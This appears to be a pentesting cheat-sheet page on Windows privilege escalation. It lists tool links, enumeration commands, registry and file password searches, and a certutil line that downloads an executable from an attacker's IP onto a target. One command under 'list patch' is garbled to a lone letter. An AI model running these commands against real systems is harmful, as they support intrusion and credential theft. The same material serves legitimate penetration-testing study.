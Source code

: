 ```yaml
---
layout: default
title: Windows Privilege Escalation
nav_order: 2
has_children: false
parent: Privilege Escalation
grand_parent: Pentesting
---
```


##  Windows Privilege Escalation :

Resources: 

- [Fuzzy Security Guide](https://www.fuzzysecurity.com/tutorials/16.html)
- [PayloadsAllTheThings Guide](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
- [Absolomb Windows Privilege Escalation Guide](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)
- [Sushant 747's Guide](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html)
- [TCM Guide](https://github.com/TCM-Course-Resources/Windows-Privilege-Escalation-Resources)

### Helpers 
#### Simple Web Server
```bash
sudo python3 -m http.server
```

#### Download file

```powershell
certutil -urlcache -f http://<YOUR_IP>/<YOUR_EXE> <DESTINATION>
```

#### WinPeas

Will automate the privilege escalation detection: 
- [https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- [https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](  https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

#### TTY Shell

- [https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys)


### Enumeration

#### External
```bash
nmap -Pn -n -p- -A --min-rate 4000 --open -sCV <IP> -oN <FILE>.nmap
```

#### System Enumertion

```powershell
hostname

systeminfo

ipconfig

systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type" 

## LIST PATCH ON SYSTEM
i
## LIST DISK
wmic logicaldisk get caption,description,providername 
```

![](/writings/docs/assets/Pasted%20image%2020230315222528.png)
![](docs/assets/Pasted%20image%2020230315222529.png)

#### Users & Groups Enumeration


```powershell
whoami

## Display privileges
whoami /priv

## Display groups
whoami /groups

## Display user of the machine
net user

## Display information about a user
net user <USER>

##Get information about group
net localgroup administrators
```

![](/writings/docs/assets/Pasted%20image%2020230315222308.png)

![](docs/assets/Pasted%20image%2020230315222303.png)

![](/writings/docs/assets/Pasted%20image%2020230315222728.png)
![](docs/assets/Pasted%20image%2020230315222731.png)


#### Network Enumeration

```powershell
## Global network information
ipconfig

## ARP information 
arp -a

## Print routing table
route print

## Print Active connection
netstat -ano
```


#### Password Hunting

```powershell
## Search for password phrase in txt file (could be tweak to search other sensitive information)
findstr /si password *.txt
```


#### AV Enumeration

```powershell
## Search for Windows Defender
sc query windefend

## List all services
sc queryex type= service

## Show firewall state

netsh advfirewall firewall dump

netsh firewall show state

netsh firewall show config

```

#### Automated Tools 

- WinPEAS - [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
- Windows PrivEsc Checklist - [https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation)
- Sherlock - [https://github.com/rasta-mouse/Sherlock](https://github.com/rasta-mouse/Sherlock)
- Watson - [https://github.com/rasta-mouse/Watson](https://github.com/rasta-mouse/Watson)
- PowerUp - [https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
- JAWS - [https://github.com/411Hall/JAWS](https://github.com/411Hall/JAWS)
- Windows Exploit Suggester - [https://github.com/AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
- Metasploit Local Exploit Suggester - [https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/](https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/)
- Seatbelt - [https://github.com/GhostPack/Seatbelt](https://github.com/GhostPack/Seatbelt)
- SharpUp - [https://github.com/GhostPack/SharpUp](https://github.com/GhostPack/SharpUp)

##### Metasploit suggester: 

```bash
run post/multi/recon/local_exploit_suggester 
```

![](/writings/docs/assets/Pasted%20image%2020230316184445.png)

![](docs/assets/Pasted%20image%2020230316184446.png)


##### Windows Exploit Suggester 

- Required python2.7
- Required pip2.7
- Required `pip2 install xlrd==1.2.0` 

```bash
# Update the vulnerability DB
python2.7 ./windows-exploit-suggester.py --update

# Run the analysis on the sysinfo extracted
sudo python2.7 ./windows-exploit-suggester.py --database <2023-03-16-mssb.xls> --systeminfo <sysinfo.txt>
```

![](/writings/docs/assets/Pasted%20image%2020230316184352.png)

![](docs/assets/Pasted%20image%2020230316184354.png)



### Kernel Exploits

- [Compilation of Exploits](https://github.com/SecWiki/windows-kernel-exploits)

Search for MS10-XXX to exploit kernel. 

### Passwords and Port Forwarding

Searching in registry:

```powershell

## Search for password in registry
reg query HKLM /f password /t REG_SZ /s

## Check in detail about winlogon (usefull when password from winlogon is returned in registry)
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
```